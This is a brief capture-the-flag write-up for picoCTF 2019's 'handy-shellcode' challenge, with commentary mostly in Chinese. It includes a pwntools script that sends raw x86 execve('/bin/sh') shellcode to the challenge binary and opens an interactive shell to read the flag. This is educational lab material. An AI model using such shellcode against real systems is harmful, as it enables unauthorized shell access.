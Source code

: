 # handy-shellcode - Points: 50
### This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_3_1a2e95a810eefe4a5994631812c0b8af on the shell server. Source.

這題就是要我們塞一段shellcode去開shell

網路上一堆程式可以參考只要搜尋搜尋Linux/x86 - execve(/bin/sh)就會有很多結果可以參考

當然也可以自己手刻組合語言利用pwntool送

而我這邊是直接在網路上找到一段assembly code

送過去之後就會噴flag出來了

```python
from pwn import  *

path = "/problems/handy-shellcode_3_1a2e95a810eefe4a5994631812c0b8af"
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

py = s.run('cd ' + path + ';' + './vuln')
#print py.recv()
py.recvuntil(':')
py.sendline(payload)
py.interactive()
```
![image](https://github.com/bohsiang/CTF_practice/blob/master/picoCTF2019/picture/handy-shellcode.PNG)
